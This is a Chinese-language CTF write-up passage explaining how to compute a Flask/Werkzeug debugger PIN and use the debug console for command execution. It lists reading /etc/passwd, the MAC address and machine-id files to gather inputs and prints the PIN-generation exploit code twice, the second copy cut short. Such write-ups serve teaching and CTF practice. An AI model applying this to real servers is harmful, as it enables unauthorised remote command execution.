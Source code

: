 

####	解题

这个题熟悉`flask`的会发现，那个报错页面其实就是开启了`debug`的界面，我们可以利用`pin`码来认证`debug`界面进行命令执行。

而关于`pin`码，我看赛时很多队伍都采取爆破的方式，导致输入过多，就不能再输入了。就导致我赛时只能人肉运维重置`web2`。

```
md5_list = [
    'root', #当前用户，可通过读取/etc/passwd获取
    'flask.app', #一般情况为固定值
    'Flask', #一般情况为固定值
    '/usr/local/lib/python2.7/dist-packages/flask/app.pyc', #可通过debug错误页面获取
    '2485377892354', #mac地址的十进制，通过读取/sys/class/net/eth0/address获取mac地址  如果不是映射端口 可以通过arp ip命令获取
    '0c5b39a3-bba2-472c-a43d-8e013b2874e8' #机器名，通过读取/proc/sys/kernel/random/boot_id 或/etc/machine-id获取
    ]
```

生成`pin`码的代码

```python
def get_pin(md5_list):
	h = hashlib.md5()
	for bit in md5_list:
		if not bit:
			continue
		if isinstance(bit, unicode):
			bit = bit.encode('utf-8')
		h.update(bit)
	h.update(b'cookiesalt')
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num
	return rv
```

拿到pin码便可执行命令。

具体可以参考[Flask debug pin安全问题](https://xz.aliyun.com/t/2553)

贴一下这题得到的`exp`

```python
import hashlib

def get_pin(md5_list):
	h = hashlib.md5()
	for bit in md5_list:
		if not bit:
			continue
		if isinstance(bit, unicode):
			bit = bit.encode('utf-8')
		h.update(bit)
	h.update(b'cookiesalt')
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
```